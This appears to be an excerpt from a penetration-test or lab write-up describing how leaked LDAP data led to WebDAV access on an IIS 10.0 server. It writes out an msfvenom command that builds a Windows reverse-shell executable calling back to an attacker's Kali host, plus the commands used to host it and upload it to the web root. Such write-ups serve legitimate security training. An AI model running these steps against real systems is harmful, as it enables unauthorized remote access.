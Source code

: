 
---

# Exploitation
##### LDAP Leaking Sensitive Information leading to logging into a webdav server to upload a web shell to root web server and executing a reverse shell

To gain a reverse shell, the root directory for Microsoft IIS 10.0 was determined through online research. Using msfvenom, a reverse shell payload was created: msfvenom -p windows/shell_reverse_tcp LHOST=[kali IP] LPORT=593 -f exe > reverse.exe.

![](Images/Pasted%20image%2020221019011200.png)
#Microsoft-IIS/10.0RootDirectory

![](Images/Pasted%20image%2020221019011410.png)

The payload was hosted on our Kali machine by typing "updog -p 80"

- The payload is then uploaded to the root web server by entering the following command into the cadaver tool.

put [path where payload is located]/reverse.exe

![](Images/Pasted%20image%2020221019011613.png)
